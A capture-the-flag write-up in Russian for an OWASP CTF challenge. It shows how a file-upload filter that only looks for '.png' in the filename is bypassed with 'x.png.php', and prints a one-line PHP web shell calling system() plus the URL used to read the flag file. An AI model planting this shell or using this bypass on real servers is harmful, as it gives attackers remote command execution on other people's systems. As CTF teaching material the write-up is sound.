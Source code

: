 # Kyiv (3.owaspctf.gq)

На главной странице видим форму для загрузки картинок. Файлы с расширениями вроде `gif|jpg|png` загружаются, `php|phtml|php5|.htaccess` нет.

По крайней мере так кажется на первый взгляд.
Поэкспериментировав еще можно прийти к выводу что в имени файла проверяется только наличие
подстроки `.png`, а не то что это является концом(расширением) файла.

Так без проблем загружается `x.png.php`.

`x.png.php`:

```
<?php system($_REQUEST[1]); ?>
```

`http://3.owaspctf.gq/images/x.png.php?1=cat+../flag.php`:

```
<?php
$unreadable='(.#)|(VY[\ULFMH]VYZF[OLFIYH]L}'
$readable=strtr($unreadable,'"#$%&\'()*+,-./0123456789:;<=>abcdefghijklmnopqrstuvwxyz?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`{|}',
                            '@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]!"#$%&\'()*+,-./0123456789:;<=>?^_`abcdefghijklmnopqrstuvwxyz{}~'
                      )
print $readable

?>

```

Кто-то слишком много пишет на питоне и забыл ставить точки с запятой). Добавляем и запускаем:

```
<?php
$unreadable='(.#)|(VY[\ULFMH]VYZF[OLFIYH]L}';
$readable=strtr($unreadable,'"#$%&\'()*+,-./0123456789:;<=>abcdefghijklmnopqrstuvwxyz?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`{|}',
                            '@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]!"#$%&\'()*+,-./0123456789:;<=>?^_`abcdefghijklmnopqrstuvwxyz{}~'
                      );
print $readable;
?>
```

`FLAG{Fortune_favors_the_brave}`

